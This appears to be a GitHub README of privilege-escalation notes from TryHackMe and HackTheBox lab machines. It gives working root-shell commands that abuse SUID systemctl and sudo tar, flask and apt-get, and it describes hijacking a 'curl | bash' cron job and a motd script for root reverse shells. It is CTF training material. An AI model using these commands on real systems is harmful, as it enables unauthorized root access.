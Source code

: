 # Ways To Escalate Privileges
This repository contains multiple ways through which I escalated my privileges with multiple machines that I have done on tryhackme and hackthebox.


## SUID /bin/systemctl - Vulnversity
In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

![Alt text](https://i.imgur.com/ZhaNR2p.jpg)

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

### Exploit

sudo sh -c 'cp $(which systemctl) .; chmod +s ./systemctl'
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF


## /etc/motd.d Writable Banner - Fowsniff CTF
This file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in /etc/update-motd.d/ file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!

### Exploit
https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/


## Overlayfs Exploit (Kernel) - GoldenEye
- For kernel version 3.13.x
- Update gcc to cc in exploit code if gcc is not installed on remote machine.
- Compile exploit using gcc in your own machine.
- ./exploit

## Sudo tar - Bounty Hacker
getting a root shell from tar from gtfobins : 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

## sudo /usr/bin/flask - Haskhell
echo 'import pty;pty.spawn("/bin/bash")' > root.py
export FLASK_APP=root.py
sudo /usr/bin/flask run

## Cronjob , Relative Path Given
/etc/crontab : * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
We can edit /etc/hosts file so change ip to our machine IP
From our machine setup a python3 http.server and create a file called buildscript.sh and get a reverse shell as root.

## Unusual SUID /usr/sbin/checker - Blog THM
$ find / -perm -u=s -type f 2>/dev/null
$ ltrace /usr/sbin/checker

getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++

$ export admin=1
$ ltrace checker

getenv("admin")                                  = "1"
setuid(0)                                        = -1
system("/bin/bash")

## Sudo apt-get - Smag Grotto
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

